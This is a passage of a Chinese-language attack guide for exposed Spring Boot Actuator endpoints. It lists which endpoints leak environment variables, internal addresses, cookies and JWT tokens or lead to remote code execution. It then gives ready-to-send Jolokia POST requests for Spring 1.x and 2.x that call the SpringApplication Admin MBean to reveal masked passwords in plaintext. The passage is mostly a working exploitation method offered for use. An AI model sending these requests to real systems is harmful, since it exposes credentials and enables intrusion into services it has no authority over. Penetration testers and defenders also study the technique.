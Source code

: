 其中对寻找漏洞比较重要接口的有：

*   `/env`、`/actuator/env`

    GET 请求 `/env` 会直接泄露环境变量、内网地址、配置中的用户名等信息；当程序员的属性名命名不规范，例如 password 写成 psasword、pwd 时，会泄露密码明文；

    同时有一定概率可以通过 POST 请求 `/env` 接口设置一些属性，间接触发相关 RCE 漏洞；同时有概率获得星号遮掩的密码、密钥等重要隐私信息的明文。
*   `/refresh`、`/actuator/refresh`

    POST 请求 `/env` 接口设置属性后，可同时配合 POST 请求 `/refresh` 接口刷新属性变量来触发相关 RCE 漏洞。
*   `/restart`、`/actuator/restart`

    暴露出此接口的情况较少；可以配合 POST请求 `/env` 接口设置属性后，再 POST 请求 `/restart` 接口重启应用来触发相关 RCE 漏洞。
*   `/jolokia`、`/actuator/jolokia`

    可以通过 `/jolokia/list` 接口寻找可以利用的 MBean，间接触发相关 RCE 漏洞、获得星号遮掩的重要隐私信息的明文等。
*   `/trace`、`/actuator/httptrace`

    一些 http 请求包访问跟踪信息，有可能在其中发现内网应用系统的一些请求信息详情；以及有效用户或管理员的 cookie、jwt token 等信息。

#### 0x03：获取被星号脱敏的密码的明文 (方法一)

> 访问 /env 接口时，spring actuator 会将一些带有敏感关键词(如 password、secret)的属性名对应的属性值用 \* 号替换达到脱敏的效果

**利用条件：**

* 目标网站存在 `/jolokia` 或 `/actuator/jolokia` 接口
* 目标使用了 `jolokia-core` 依赖（版本要求暂未知）

**利用方法：**

**步骤一： 找到想要获取的属性名**

GET 请求目标网站的 `/env` 或 `/actuator/env` 接口，搜索 `******` 关键词，找到想要获取的被星号 \* 遮掩的属性值对应的属性名。

**步骤二： jolokia 调用相关 Mbean 获取明文**

将下面示例中的 `security.user.password` 替换为实际要获取的属性名，直接发包；明文值结果包含在 response 数据包中的 `value` 键中。

* 调用 `org.springframework.boot` Mbean

> 实际上是调用 org.springframework.boot.admin.SpringApplicationAdminMXBeanRegistrar 类实例的 getProperty 方法

spring 1.x

```
POST /jolokia
Content-Type: application/json

{"mbean": "org.springframework.boot:name=SpringApplication,type=Admin","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}
```

spring 2.x

```
POST /actuator/jolokia
Content-Type: application/json

{"mbean": "org.springframework.boot:name=SpringApplication,type=Admin","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}
```
